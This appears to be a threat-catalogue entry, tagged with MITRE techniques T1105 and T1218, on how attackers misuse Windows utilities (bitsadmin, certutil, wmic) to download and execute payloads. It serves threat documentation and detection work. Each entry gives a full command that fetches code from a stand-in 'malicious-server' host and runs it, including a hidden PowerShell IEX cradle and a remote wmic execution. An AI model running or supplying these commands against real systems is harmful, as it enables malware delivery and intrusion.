

# Download and Execute Payloads with Windows Utilities

## Metadata

- **UUID**: `765be5d9-4f79-4e3d-b894-fa428f285ab5`
- **Schema**: `threat::1.0`
- **TLP**: clear

## Description
1. Bitsadmin.exe\
**Description**: A command-line tool to create and manage BITS jobs. 
Threat actors use it to download or upload files stealthily.

Example:

```
bitsadmin.exe /transfer myJob /download /priority high http://malicious-server/payload.exe C:\temp\payload.exe
start C:\temp\payload.exe
```

2. Certutil.exe\
**Description**: A command-line tool for manipulating certificates. 
It can be used to download files and perform Base64 encoding/decoding.

Example:

```
certutil.exe -urlcache -split -f http://malicious-server/payload.exe C:\temp\payload.exe
```

3. Wmic.exe\
**Description**: Windows Management Instrumentation Command-line (WMIC) is 
a command-line utility that provides a powerful interface to the 
Windows Management Instrumentation (WMI) infrastructure. 
It allows administrators to perform management tasks on both local and remote Windows systems

Example:

Execute payload on a local machine:
```
wmic process call create "powershell.exe -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command \"IEX(New-Object Net.WebClient).DownloadString('http://malicious-server/payload.ps1')\""
```

Execute a remote script:
```
wmic /node:"REMOTE_COMPUTER_NAME" process call create "powershell.exe -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command \"Invoke-WebRequest -Uri 'http://malicious-server/payload.exe' -OutFile 'C:\\Windows\\Temp\\payload.exe'; Start-Process 'C:\\Windows\\Temp\\payload.exe'\""
```

## Techniques
- T1105
- T1218

## Chaining

